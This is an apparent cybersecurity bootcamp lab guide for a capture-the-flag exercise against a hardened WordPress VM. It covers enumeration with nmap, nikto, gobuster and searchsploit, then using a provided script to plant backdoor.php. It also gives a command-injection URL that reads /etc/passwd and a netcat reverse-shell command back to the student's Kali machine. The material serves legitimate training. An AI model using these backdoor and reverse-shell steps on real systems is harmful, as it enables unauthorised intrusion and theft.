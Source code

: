 #### Attacking Target 2


Please note, **attacking Target 2 is not required**. It is included as an additional challenge if you are interested in assessing a more complex web application. Before attempting this challenge, make sure you complete the Wireshark analysis.

Target 2 exposes the same WordPress site as Target 1, but with better security hardening. Therefore, it must be exploited differently than Target 1. 

The steps for completing this assessment are enumerated below. All details required to capture the first three flags on Target 2 are included.


#### Instructions

Target 2's IP Address: `192.168.1.115`

1. Use Nmap to identify the IP address of Target 2.

2. Use Nmap to document all exposed ports and services at this IP address.

3. Enumerate the web server with `nikto`.
    - **Hint**: Run: `nikto -C all -h <URL>`
    - **Note**: This creates a list of URLs the Target HTTP server exposes. What kind of website is this VM running?

4. Perform a more in-depth enumeration with `gobuster`.
    - **Hint**
      - Install `gobuster` using `apt`
      - Run `gobuster -w /path/to/wordlist dir -u <URL>`
      - Use `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` as your wordlist (`-w`).
      - Pay attention to the `/vendor` directory. There may be a `flag` in there...


5. Use searchsploit to find any known vulnerabilities associated with the programs found in Step #4.
    **Hint**: Run `searchsploit -h`

6. Use the provided script `exploit.sh` to exploit this vulnerability by opening an Ncat connection to your Kali VM.

    - Edit the line at the top of the script that sets the `TARGET` variable. Set it equal to the IP address of Target 2.

    - Run the script. It uploads a file called `backdoor.php` to the target server. This file can be used to execute command injection attacks.

    - Navigate to: `http://<Target 2 URL>/backdoor.php?cmd=<CMD>`
      - This allows you to run bash commands on Target 2.
      - For example, try: `http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd`

    - Next, use the backdoor to open a shell session on the target.

      - On your **Kali** VM, start a netcat listener: `nc -lnvp 4444`
      - In the browser, use the backdoor to run: `nc <Kali IP> 4444 -e /bin/bash`. For example, your query string will look like `cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.

7. Using the shell you've opened on `Target 2`, find a `flag` in `/var/www`.

8. Next, find a flag in the WordPress uploads directory.

    - **Hint**: Use the `find` command: `find /var/www -type f -iname 'flag*'`

9. If you find all three flags -- congratulations! There is a fourth, but escalating to `root` is extremely difficult: For now, move on to completing a report about Target 2.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
